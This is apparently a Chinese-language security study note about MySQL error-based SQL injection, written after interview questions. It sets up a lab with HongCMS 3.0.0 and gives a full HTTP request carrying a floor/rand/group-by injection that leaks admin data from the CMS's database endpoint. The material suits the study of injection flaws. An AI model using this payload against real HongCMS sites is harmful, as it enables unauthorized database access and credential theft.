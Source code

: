 # 0x00 前言
360的笔试和前两天的面试都问道这个问题了，只不过360是sql server，然后后来的面试问的是MySQL，以前感觉自己好像都会了，但是当真正遇到问题才发现不是想想中的样子。。

# 0x01 先来MySQL（这个环境好搭建一点）
环境
- Windows server2008
- IIS7+php5+mysql5.0.22
- Hong cms 3.0.0

# 0x02 注入payload

参考[Hongcms 3.0.0后台SQL注入漏洞分析](https://www.freebuf.com/vuls/178316.html)和[十种MySQL报错注入](https://blog.csdn.net/whatday/article/details/63683187)  
采用报错注入，因为mysql5.0没有updatexml函数，所以使用floor、group by和count函数的冲突进行报错注入。
```
GET /admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60where%20vvcid=1%20or%20(select%201%20from%20(select%20count(*),concat((select%20loginnum%20from%20hong_admin),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%20or%20%60 HTTP/1.1
Host: 192.168.72.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.72.131/admin/index.php/database
Connection: keep-alive
Cookie: O0oqZrypyswqadmin=104918af865ae8146284b36ed2c5c907
Upgrade-Insecure-Requests: 1
```
